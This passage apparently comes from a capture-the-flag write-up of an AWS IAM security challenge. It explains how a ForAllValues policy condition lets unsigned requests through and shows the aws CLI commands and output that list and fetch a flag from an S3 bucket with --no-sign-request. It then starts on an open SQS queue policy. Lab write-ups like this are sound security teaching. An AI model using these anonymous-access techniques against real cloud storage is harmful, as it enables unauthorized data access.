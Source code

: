 From [AWS documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/reference_policies_multi-value-conditions.html#reference_policies_multi-key-or-value-conditions), the `ForAllValues` condition will evaluate requests without keys as “True”:

> The condition returns true if every key value in the request matches at least one value in the policy. ***It also returns true if there are no keys in the request***, or if the key values resolve to a null data set, such as an empty string.
> 

The `--no-sign-request` parameter will send a request without keys, and `--recursive` should pull all contents accessible to the session:

```bash
> aws s3 cp s3://thebigiamchallenge-admin-storage-abf1321/files - --recursive --no-sign-request
Streaming currently is only compatible with non-recursive cp commands
```

But this one fails, as recursive commands aren’t compatible with the previous `-` for `stdout`!

One weird trick: While it’s not possible **copy** files to the read only cloud shell, one can certainly try to. (Enumeration!) This provides the file names available to the session, based on errors for the attempted copy of each file:

```bash
> aws s3 cp s3://thebigiamchallenge-admin-storage-abf1321/files . --recursive  --no-sign-request
download failed: s3://thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt to ./flag-as-admin.txt [Errno 30] Read-only file system: '/var/task/flag-as-admin.txt.eda799b5'
download failed: s3://thebigiamchallenge-admin-storage-abf1321/files/logo-admin.png to ./logo-admin.png [Errno 30] Read-only file system: '/var/task/logo-admin.png.d5CB6b78'
```

See the flag file? It can now be fetched just like before, to `stdout`:

```bash
> aws s3 cp s3://thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt -
{wiz:principal-arn-is-not-what-you-think}
```

# SQS/SNS Challenges

## Open SQS Queue Messages (Challenge #2)

### Summary

Challenge #2 created a Simple Queue Service (SQS) instance that allowed any Principal to send and receive SQS messages. With the queue’s URL known from the provided IAM policy, the `aws sqs receive-message`  could be used to receive a message, and fetch the flag from the resulting URL the queue exposed.

### Details

The SQS policy provided identifies that any Principal can Send or Receive messages:

```json
{
"Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": [
                "sqs:SendMessage",
                "sqs:ReceiveMessage"
            ],
            "Resource": "arn:aws:sqs:us-east-1:092297851374:wiz-tbic-analytics-sqs-queue-ca7a1b2"
        }
    ]
}
```